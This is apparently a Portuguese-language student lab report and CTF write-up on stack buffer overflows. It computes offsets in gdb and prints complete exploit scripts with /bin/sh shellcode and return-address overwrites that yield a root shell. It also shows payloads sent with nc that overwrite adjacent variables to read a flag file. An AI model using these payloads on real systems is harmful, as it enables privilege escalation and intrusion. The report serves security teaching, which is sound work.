





# Lab Semana 5

O objetivo do trabalho esta semana é perceber em detalhe o ataque de *buffer overflow* conhecido como *smashing the stack*.

### Task 1

Ao compilar `call_shellcode.c` e correr `a32.out` e `a64.out` separadamente, verificamos que ambos iniciam uma *shell* independentemente da arquitetura para qual é compilado.

### Task 3

Seguindo a sugestão no guião, adicionamos a seguinte linha a `stack.c`:

```c
printf("Address of buffer: %p\n", &buffer);
```

E ao correr o programa dentro e fora de `gdb` conseguimos descobrir o *offset* que o *debugger* incorre na memória.
Verificamos que o endereço de memória do *buffer* dentro do `gdb` foi `0xffffcadc`, e fora do mesmo obtivemos o valor de `0xffffcb4c`. Isto significa que há um *offset* de 112 bits.

Correndo `gdb stack-L1-dbg` e seguindo o guia, conseguimos obter os seguintes endereços de memória:



A partir do valor de `ebp` e do endereço de `buffer` conseguimos obter *offset* de memória desde `buffer` até onde o *return adress* é guardado.

```
0xffffcb48 - 0xffffcadc = 108
```

Uma vez que o *return address* é guardado no endereço de memória anterior ao *stack frame*, o *offset* que realmente queremos é 112.

Finalmente, para calcular o *return address*, basta escolher um valor maior que 112 e que ocorra antes do início do *shellcode*, e que adicionalmente seja divisível por 4, como, por exemplo 120.

Assim, e utilizando o valor arbitrário de 200 como o índice do *buffer* onde começa o *shellcode*, `exploit.py` fica assim:

```py
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 200
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcbc4    # &buffer + 120
offset = 112

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

Correndo `./exploit.py` seguido de `./stack-L1`, verificamos que ganhamos acesso à *root shell*:



### Task 4

Aqui, o processo é semelhante. No entanto, não sabemos o tmanaho inicial do *buffer*.

Como nos é informado que o *buffer* pode ter desde 100 a 200 bytes e não podemos usar força bruta, para assegurar que funciona para qualquer tamanho nesse intervalo teremos de colocar o *shellcode* algures depois do tamanho máximo do *buffer*.

Vimos na tarefa anterior que o *return address* se econtrava 12 bytes após o final do *buffer* (100 + 12). Logo, se preenchermos as posições 112 a 212 do *buffer* com o *return address* que pretendemos, qualquer *buffer* com o tamanho contido no intervalo indicado encontrará o *return address* em `ebp`.

Usando o `gdb`, vemos que o endereço do *buffer* é `0xffffcaa0`, logo fora do mesmo será `0xffffcb0c`.

Usando os valores arbitrários de 240 como início do *shellcode* e 220 o *offset* do *return address*, o `exploit.py` terá o seguinte conteúdo:

```py
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 240
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcbe8    # &buffer + 220
offset = 112

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
for x in range(26):    # (212 - 112) / 4 + 1 = 26
	content[offset + x * 4 :offset + L + x * 4] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```
Executando `./exploit.py` uma vez mais, seguido de `./stack-L2`, conseguimos mais uma vez ter acesso à *root shell*.



---

# CTF

Neste CTF, temos dois desafios para resolver, ambos sobre *buffer overflows*.

## Desafio 1

Este desafio encontra-se disponível em `nc ctf-fsi.fe.up.pt 4003`, onde encontramos o servidor a correr o seguinte programa:

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%40s", &buffer);

    printf("Echo %s\n", buffer);

    printf("I like what you got!\n");
    
    FILE *fd = fopen(meme_file,"r");
    
    while(1){
        if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
            printf("%s", buffer);
        } else {
            break;
        }
    }


    fflush(stdout);
    
    return 0;
}
```

É claramente aparente que o objetivo do desafio é dar overflow ao *buffer* de 32 bytes para reescrever a variável `meme_file`.
Esta encontrar-se-à imediatamente a seguir ao *buffer* na *stack*, logo bastará preencher o buffer completamente que os seguintes bytes que o programa receber acabarão por reescrever a variável `meme_file`.

Com o seguinte script conseguimos criar um ficheiro que podemos enviar por *standard input* para o servidor:

```py
with open('badfile', 'wb'):
    fl.write(0xFFFFFFFF.to_bytes(4, byteorder='little')*8)
    fl.write(bytes('flag.txt', 'latin-1'))
```

E com o seguinte comando conseguimos obter a *flag*:

```bash
echo $(cat badfile) | nc ctf-fsi.fe.up.pt 4003
```



## Desafio 2

Neste segundo desafio deparamo-nos com uma situação muito semelhante:


```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[9] = "mem.txt\0\0";
    char val[4] = "\xef\xbe\xad\xde";
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%45s", &buffer);
    if(*(int*)val == 0xfefc2324) {
        printf("I like what you got!\n");
        
        FILE *fd = fopen(meme_file,"r");
        
        while(1){
            if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
                printf("%s", buffer);
            } else {
                break;
            }
        }
    } else {
        printf("You gave me this %s and the value was %p. Disqualified!\n", meme_file, *(long*)val);
    }

    fflush(stdout);
    
    return 0;
}
```

Desta vez, no entanto, teremos de reescrever uma outra variável com o valor indicado para poder ter acesso à *flag*. De qualquer modo, a resolução terá o mesmo raciocínio de antes:

```py
with open('badfile', 'wb') as fl:
    fl.write(0xFFFFFFFF.to_bytes(4, byteorder='little')*8)
    fl.write(0xfefc2324.to_bytes(4, byteorder='little'))
    fl.write(bytes('flag.txt', 'latin-1'))
```

E executando o comando uma vez mais, conseguimos obter acesso à *flag*.




